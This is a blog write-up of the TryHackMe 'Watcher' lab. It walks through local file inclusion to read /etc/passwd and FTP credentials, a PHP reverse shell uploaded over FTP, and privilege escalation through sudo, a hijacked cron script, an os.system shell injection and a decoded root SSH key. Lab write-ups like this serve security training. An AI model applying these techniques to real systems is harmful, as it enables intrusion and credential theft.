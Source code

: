 ```yaml
---
layout: post
title: THM Watcher - Writeup
date: 2025-09-20 16:58 -0400
tags: ["thm","writeup","lfi","web"]
---
```


In this occasion we will be solving TryHackMe's room
URL: https://tryhackme.com/room//assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher

## recon
```shell
# Nmap 7.94SVN scan initiated Fri Sep 19 15:47:51 2025 as: nmap -sCV --min-rate=1500 -n -p- --open --max-retries=1 -oA /tmp//assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher -vv 10.201.75.132
Host: 10.201.75.132 ()	Status: Up
Ports: 
	21/open/tcp//ftp//vsftpd 3.0.5/, 
	22/open/tcp//ssh//OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)/, 
	80/open/tcp//http//Apache httpd 2.4.41 ((Ubuntu))
```

Now we start inspecting the web application hosted in the machine using Nuclei.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919.png)

From the output we can see 2 interesting paths, accessing, we can retrieve the first flag here `flag_1.txt`, the second path is protected but lets keep this path for later.

```
/flag_1.txt
/secret_file_do_not_read.txt
```
**Local File Inclusion**
Inspecting the post section we can test for Local File Inclusion, a simple test confirms this.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-1.png)

```
#passwd file
root:x:0:0:root:/root:/bin/bash
will:x:1000:1000:will:/home/will:/bin/bash
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
ubuntu:x:1004:1005:Ubuntu:/home/ubuntu:/bin/bash
```
**Available users**
```
root
will
mat
toby
ubuntu
```
Now we access the protected path and we can see the contents of the text file

```bash
/var/www/html/secret_file_do_not_read.txt
```

Here, we retrieve the FTP credentials, and also take note on where are the files are being stored after uploading.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-2.png)

```
ftpuser:givemefiles777
```
## Remote code Execution

using FTP upload a php reverse shell, we have the path where this will be placed /home/ftpuser/ftp/files, and after this we can access the reverse shell via the LFI vulnerability as follows.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-3.png)

Got a reverse shell as www-data user

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-4.png)

Proceed to find the third flag: flag_3.txt

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-5.png)

flag_4.txt

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-6.png)
## Privilege Escalation

means user www-data can switch to user toby without password so, lets execute the following

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-7.png)

```
sudo -u toby bash
```

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-8.png)

Examining with pspy we can see user uid 1002 (mat) is executing a cronjob every minute.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920.png)

Proceed to edit the job cow.sh with a reverse shell and receive a reverse shell as mat.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-1.png)

Get flag_5.txt here.

From mat user check sudo rights, we can see that a script can impersonate will, so let's dig into this.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-2.png)

We have write permissions over cmd.py file, so edit this and include the following lines:

```python
import os
os.system("/bin/bash")
```

Resulting the final file like this.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-3.png)

Now execute the script to escalate privileges

```bash
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py "1"
```

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-4.png)

Inside /opt/backups we can see a key.b64 file, which contains a base64 data encoded.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-5.png)
Decode the file and save it on you host machine, assign permissions to 0400.


![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-8.png)

Finally, use the private key to ssh into the system. Get the last flag here.

```bash
ssh -i key root@$IP
```

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-6.png)

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-7.png)
